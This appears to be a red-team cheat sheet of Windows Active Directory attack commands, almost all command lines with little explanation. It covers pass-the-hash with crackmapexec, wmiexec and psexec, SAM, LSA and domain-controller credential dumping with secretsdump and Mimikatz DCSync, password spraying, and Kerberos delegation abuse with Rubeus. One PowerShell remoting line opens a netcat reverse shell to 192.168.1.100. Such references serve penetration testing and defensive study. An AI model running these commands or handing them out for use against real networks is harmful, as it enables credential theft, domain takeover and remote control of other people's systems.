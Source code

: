 ### lateral movement
```
| PsExec64.exe \\192.168.1.104 -u administrator -p forever cmd |
| psexec \\192.168.122.66 -u Administrator -p 123456Ww ipconfig|
| psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t ipconfig |
| PsExec64.exe \\ninja.corp cmd |
| psexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig |
| wmiexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig |
| crackmapexec 192.168.100.1/24 |
| crackmapexec cme-hosts.txt --shares |
| cme-hosts.txt -u username.txt -p password.txt --shares |
|crackmapexec 192.168.100.10 -u Administrator -p 'Passw0rd!' -x "net users" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -p 'Passw0rd!' -x "net users" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -x "hostname" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -x "hostname" |
| crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 --sam            |
| crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 --lsa            |
| pth-rpcclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 |
| python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 Administrator@192.168.100.10 #with hash |
| python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -just-dc acmebank.loca/Administrator@192.168.100.10 |

```
### 
```
wmic /node:"wkstn-4945" /user:"cyberbotic.io\n.lamb" /password:"F3rrari" process call create "powershell -enc [...snip...]"
WMIGrunt wkstn-4945 PowerShell cyberbotic.io\n.lamb F3rrari
 WMIGrunt wkstn-4945 PowerShell
 ```
  ### PowerShell Remoting
 ```
ImpersonateUser CYBER\n.lamb
MakeToken n.lamb cyberbotic.io F3rrari
PowerShell Invoke-Command -ComputerName wkstn-4945 -ScriptBlock { hostname; whoami }
PowerShell $pass=ConvertTo-SecureString "F3rrari" -AsPlainText -Force; $cred=New-Object System.Management.Automation.PSCredential("cyberbotic.io\n.lamb", $pass); Invoke-Command -ComputerName wkstn-4945 -ScriptBlock { hostname; whoami } -Credential $cred
```




| PowerShell Remoting |
| ------------------- |
|$Username = 'ninja.corp\MeMe' #powershell variable |
|$Password = '123456789aA'|
|$pass= ConvertTo-SecureString -AsPlainText $Password -Force #powershell variable |
|$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass #powershell variable |
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {hostname}|
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {cmd.exe /c nc.exe -v 192.168.1.100 7777 -e cmd.exe}|





### Mimikatz 
```
|lsadump::dcsync /domain:pentestlab.local /all /csv|
|Invoke-Mimikatz -Command '"lsadump::dcsync /domain:insomnia.ninja.corp /all /csv"'|
|Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'|
|Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'|
```

 ### Password Spraying Attack 
```

| crackmapexec smb 192.168.1.1  -d ninja.corp -u MeME -P /usr/share/wordlists/rockyou.txt|
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| crackmapexec smb 192.168.1.1 -u MeMe -H NTHASH |
|crackmapexec smb 192.168.1.1 -u '' -p '' #NULL Sessions|
|spray.sh -smb 192.168.1.1 users.txt /usr/share/wordlists/rockyou.txt  1 35 ninja.corp|
|spray.sh -owa 192.168.1.1 users.txt  /usr/share/wordlists/rockyou.txt   1 35 Request.body #OWA|
|spray.sh -ciso 192.168.1.1 usernames.txt /usr/share/wordlists/rockyou.txt 1 35 #CISCO Web VPN|
|./atomizer.py owa contoso.com 'Fall2018' emails.txt|
```

Then use `mimikatz` to load the ticket.

### Kerberos Constrained Delegation
```powershell

mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
Get-DomainComputer -TrustedToAuth | select -exp dnshostname #Identify
Get-DomainComputer previous_result | select -exp msds-AllowedToDelegateTo # Figure out exposed servie
getST.py -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password' -impersonate Administrator -dc-ip 10.10.10.10
rubeus s4u /user:user_for_delegation /rc4:user_pwd_hash /impersonateuser:user_to_impersonate /domain:domain.com /dc:dc01.domain.com /msdsspn:cifs/srv01.domain.com /ptt #with rubeus
 
```

